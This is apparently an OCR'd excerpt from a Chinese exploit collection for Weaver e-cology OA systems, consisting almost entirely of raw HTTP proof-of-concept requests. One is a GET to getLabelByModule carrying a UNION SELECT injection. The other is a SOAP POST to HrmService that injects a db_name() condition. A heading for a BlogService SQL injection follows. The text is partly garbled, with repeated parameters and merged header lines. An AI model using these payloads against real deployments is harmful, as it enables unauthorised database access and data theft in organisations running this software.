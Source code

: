 ```
GET /api/ec/dev/locale/getLabelByModule?moduleCode=?moduleCode=?moduleCode=aaa')+union+all+select+'1,1123123'+-- HTTP/1.1
Host: {}
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=utf-8Accept: */*
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```  
  
  
  
POST /services/HrmService HTTP/1.1  
  
Upgrade-Insecure-Requests: 1  
  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.88 Safari/537.36  
  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7  
  
Accept-Encoding: gzip, deflate, br  
  
Connection: close  
  
SOAPAction: urn:weaver.hrm.webservice.HrmService.getHrmDepartmentInfo  
  
Content-Type: text/xml;charset=UTF-8  
  
Host:   
  
Content-Length: 427  
  
  
<soapenv:Envelope xmlns:soapenv="  
http://schemas.xmlsoap.org/soap/envelope/"  
 xmlns:hrm="  
http://localhost/services/HrmService">  
  
   <soapenv:Header/>  
  
   <soapenv:Body>  
  
      <hrm:getHrmDepartmentInfo>  
  
           
  
         <hrm:in0>gero et</hrm:in0>  
  
           
  
         <hrm:in1>1)AND(db_name()like'ec%'</hrm:in1>  
  
      </hrm:getHrmDepartmentInfo>  
  
   </soapenv:Body>  
  
</soapenv:Envelope>  
  
### 2.1.12泛微ecology系统接口BlogService存在SQL注入漏洞  
  
